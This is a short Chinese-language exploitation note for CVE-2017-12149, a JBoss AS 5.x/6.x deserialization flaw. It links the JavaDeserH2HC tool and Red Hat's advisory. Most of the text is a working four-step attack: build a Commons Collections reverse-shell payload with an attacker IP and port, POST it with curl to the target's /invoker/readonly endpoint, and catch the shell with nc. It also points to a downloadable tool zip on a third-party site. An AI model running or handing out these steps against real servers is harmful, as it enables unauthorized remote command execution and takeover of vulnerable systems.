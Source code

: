 # JbossAS 5.x/6.x反序列化远程命令执行漏洞(CVE-2017-12149)
* Github[https://github.com/joaomatosf/JavaDeserH2HC](https://github.com/joaomatosf/JavaDeserH2HC)
* [https://access.redhat.com/security/cve/cve-2017-12149](https://access.redhat.com/security/cve/cve-2017-12149)
* 工具[http://scan.javasec.cn/java/JavaDeserH2HC.zip](http://scan.javasec.cn/java/JavaDeserH2HC.zip)
## 漏洞利用
1: `javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java`
2: `java -cp .:commons-collections-3.2.1.jar  ReverseShellCommonsCollectionsHashMap ip:port` //反弹shell的IP和端口,然后会生成一个ReverseShellCommonsCollectionsHashMap.ser文件
3: `curl 网址/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser`
4: 再打开另外一个终端并且nc开始设置的反弹shell的IP
